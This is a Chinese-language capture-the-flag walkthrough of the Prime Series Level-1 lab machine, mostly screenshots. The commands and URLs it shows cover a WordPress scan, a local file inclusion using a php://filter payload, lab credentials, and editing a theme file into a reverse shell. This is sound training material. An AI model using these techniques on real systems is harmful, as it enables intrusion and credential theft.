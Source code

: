 # Prime_Series_Level-1



![image-20200616032702410](assets/Prime_Series_Level-1.assets/image-20200616032702410.png)



![image-20200616034329320](assets/Prime_Series_Level-1.assets/image-20200616034329320.png)



![image-20200616034518382](assets/Prime_Series_Level-1.assets/image-20200616034518382.png)

wpscan正常扫识别不了，--force强制扫描

```bash
wpscan --url http://192.168.43.67/wordpress/ -e ap,vt,cb,u --force
```

![image-20200616035034608](assets/Prime_Series_Level-1.assets/image-20200616035034608.png)

网页刷不出来。改了一下nat。正常了

但是没找到什么

重新换工具打目录



![image-20200616213145926](assets/Prime_Series_Level-1.assets/image-20200616213145926.png)

![image-20200616213041045](assets/Prime_Series_Level-1.assets/image-20200616213041045.png)

![image-20200616215441336](assets/Prime_Series_Level-1.assets/image-20200616215441336.png)

浏览这个页面并不存在。线索是提示wfuzz，尝试在之前打过的php页面fuzz参数。

![image-20200616212916122](assets/Prime_Series_Level-1.assets/image-20200616212916122.png)

```bash
http://10.10.10.129/index.php?file=location.txt
```



![image-20200616215704601](assets/Prime_Series_Level-1.assets/image-20200616215704601.png)

另一个php页面是之前扫到的image.php

```bash
http://10.10.10.129/image.php?secrettier360=
```

![image-20200616215900633](assets/Prime_Series_Level-1.assets/image-20200616215900633.png)

我们需要搞懂这个页面能提供什么功能。尝试看一下源码

```bash
10.10.10.129/image.php?secrettier360=php://filter/read=convert.base64-encode/resource=image.php
```

![image-20200616220111837](assets/Prime_Series_Level-1.assets/image-20200616220111837.png)

![image-20200616220257792](assets/Prime_Series_Level-1.assets/image-20200616220257792.png)

显然可以文件包含

![image-20200616220614259](assets/Prime_Series_Level-1.assets/image-20200616220614259.png)

验证成功，还有另外一个提示，尝试按提示读取

![image-20200616220710770](assets/Prime_Series_Level-1.assets/image-20200616220710770.png)



现在我们有了一个用户凭证

```bash
saket:follow_the_ippsec
```

先实验ssh

![image-20200616221115742](assets/Prime_Series_Level-1.assets/image-20200616221115742.png)

想到之前扫出的wordpress登录页面

```bash
http://10.10.10.129/wordpress/wp-admin
```

尝试登录失败。

查看wp的页面

![image-20200616222403987](assets/Prime_Series_Level-1.assets/image-20200616222403987.png)

发现实际wp管理员的用户名可能是victor

```bash
victor:follow_the_ippsec
```



![image-20200616222625497](assets/Prime_Series_Level-1.assets/image-20200616222625497.png)



修改主题已获得rshell

![image-20200616224111591](assets/Prime_Series_Level-1.assets/image-20200616224111591.png)

在右侧逐个查看页面查找可以修改的页面

![image-20200616224219617](assets/Prime_Series_Level-1.assets/image-20200616224219617.png)

修改成rshell

![image-20200616224310635](assets/Prime_Series_Level-1.assets/image-20200616224310635.png)

```bash
http://10.10.10.129/wordpress/wp-content/themes/twentynineteen/secret.php
```

![image-20200616224525255](assets/Prime_Series_Level-1.assets/image-20200616224525255.png)

![image-20200616225603258](assets/Prime_Series_Level-1.assets/image-20200616225603258.png)

直接本地提权

![image-20200616225900539](assets/Prime_Series_Level-1.assets/image-20200616225900539.png)

![image-20200616225839008](assets/Prime_Series_Level-1.assets/image-20200616225839008.png)